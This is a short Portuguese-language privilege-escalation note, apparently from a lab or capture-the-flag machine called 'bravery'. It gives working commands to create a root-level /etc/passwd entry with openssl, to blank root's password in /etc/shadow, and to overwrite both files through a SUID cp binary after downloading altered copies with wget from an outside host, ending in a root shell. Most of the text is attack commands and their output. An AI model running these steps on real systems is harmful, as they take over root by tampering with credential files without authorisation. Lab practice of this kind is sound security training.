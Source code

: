 
`openssl passwd -1 -salt an4kein 1337`

`$1$an4kein$KpVTAUsL0SO0N532qSXyf.`

`an4kein:$1$an4kein$KpVTAUsL0SO0N532qSXyf.:0:0:/root/root:/bin/bash`


https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation/

1- Remova a senha crypt que existe no SHADOW

antes:

`root:$6$8uypxcySfhhZ/p1p$1Sj6Bbm/gTNOqdmjVWJh9KjH/osqfXi4WQfVkoSEgL5OSKGo7cxdbQRQo.yzibIddtabSHYvDs1IbITaGTd/o.::0:99999:7:::`

depois:

`root:::0:99999:7:::`

2 - Remova o X que identifica que o user tem uma senha a ser inserida:

antes: 

`root:x:0:0:root:/root:/bin/bash`

depois:

`root::0:0:root:/root:/bin/bash`

Elevando o privilegio para root usando o cp com suid: 

```
[root@bravery shm]# ls -lav /usr/bin/cp
ls -lav /usr/bin/cp
-rwsr-xr-x. 1 root root 155176 Apr 11  2018 /usr/bin/cp
```

wget http://172.16.1.107:82/shadow -O shadow

wget http://172.16.1.107:82/passwd -O passwd


LFILE=/etc/shadow
echo "$(cat shadow)" | cp /dev/stdin "$LFILE"

LFILE=/etc/passwd
echo "$(cat passwd)" | cp /dev/stdin "$LFILE"

```
bash-4.2$ su root          
su root                     
[root@bravery shm]#
```
